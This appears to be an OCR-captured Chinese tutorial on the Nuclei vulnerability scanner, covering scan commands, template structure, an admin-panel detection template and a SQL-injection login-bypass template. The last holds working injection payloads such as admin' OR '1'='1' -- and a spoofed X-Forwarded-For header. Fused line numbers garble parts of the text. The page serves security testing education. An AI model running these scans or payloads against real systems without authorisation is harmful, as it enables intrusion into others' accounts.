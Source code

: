 991234567891011121314# 按严重程度nuclei -u target -severity critical,high  
# 按漏洞类型nuclei -u target -tags sqli,xss,rce  
# 指定模板目录nuclei -u target -t cves/2023/  
# 排除特定模板nuclei -u target -exclude-templates dos/  
# 自定义模板nuclei -u target -t my-custom-template.yaml 实用参数组合  
快速扫描  
  
​

91nuclei -u target -tags cve -severity critical -c 50 -rate-limit 100 深度扫描  
​

91nuclei -u target -tags vuln,exposure -timeout 15 -retries 2 -verbose 静默扫描  
​

91nuclei -u target -silent -json -o results.json🎯 模板编写  
  
基础模板结构  
  
​

991234567891011121314151617181920212223id: unique-template-id  
info: name: "漏洞名称" author: "作者" severity: critical|high|medium|low|info description: "详细描述" tags: "tag1,tag2,tag3" reference: - "https://reference-url.com"  
requests: - method: GET|POST|PUT|DELETE path: - "{{BaseURL}}/endpoint" matchers: - type: status|word|regex|dsl # 匹配条件 extractors: - type: regex|xpath|json # 提取规则实际模板示例  
  
简单 GET 请求检测  
  
​

9912345678910111213141516171819202122232425262728293031id: admin-panel-detection  
info: name: "Admin Panel Detection" author: "security-team" severity: info description: "检测常见的管理员面板" tags: "panel,admin,exposure"  
requests: - method: GET path: - "{{BaseURL}}/admin" - "{{BaseURL}}/admin.php" - "{{BaseURL}}/administrator" - "{{BaseURL}}/wp-admin" matchers-condition: and matchers: - type: status status: - 200 - type: word part: body words: - "admin" - "login" - "dashboard" condition: or case-insensitive: truePOST 请求 with 负载  
  
​

99123456789101112131415161718192021222324252627282930313233343536373839id: login-bypass-attempt  
info: name: "SQL Injection Login Bypass" author: "pentest-team" severity: high description: "尝试通过 SQL 注入绕过登录验证" tags: "sqli,auth-bypass,login"  
requests: - method: POST path: - "{{BaseURL}}/login" - "{{BaseURL}}/admin/login.php" headers: Content-Type: "application/x-www-form-urlencoded" X-Forwarded-For: "127.0.0.1" body: | username={{username}}&password={{password}} payloads: username: - "admin' OR '1'='1' --" - "admin' OR 1=1#" - "'OR'x'='x" password: - "anything" attack: pitchfork matchers: - type: word words: - "welcome" - "dashboard" - "logged in successfully" condition: or 匹配器详解  
状态码匹配  
  